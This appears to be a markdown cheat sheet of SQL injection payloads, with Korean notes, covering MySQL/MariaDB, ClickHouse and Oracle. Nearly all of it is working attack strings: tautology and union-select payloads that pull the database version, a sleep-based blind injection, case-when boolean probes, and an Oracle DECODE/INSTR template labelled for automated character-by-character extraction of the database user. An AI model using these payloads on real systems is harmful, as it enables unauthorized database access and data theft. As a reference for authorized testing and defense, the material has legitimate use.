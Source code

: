 # SQLI PAYLOAD

## mysql mariadb
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"  
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  



## clickhouse
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  


## oracle
정렬부분(쿼터, SELECT 없이 )

DECODE(INSTR(CHR(65),CHR(65),1,1),1,TRUE값,FALSE값)

DECODE(INSTR(CHR(65),CHR(66),1,1),1,TRUE값,FALSE값)

->자동화 공격

DECODE(INSTR(USER,CHR({ascii_code}),{pos},1),{pos},TRUE값,FALSE값)
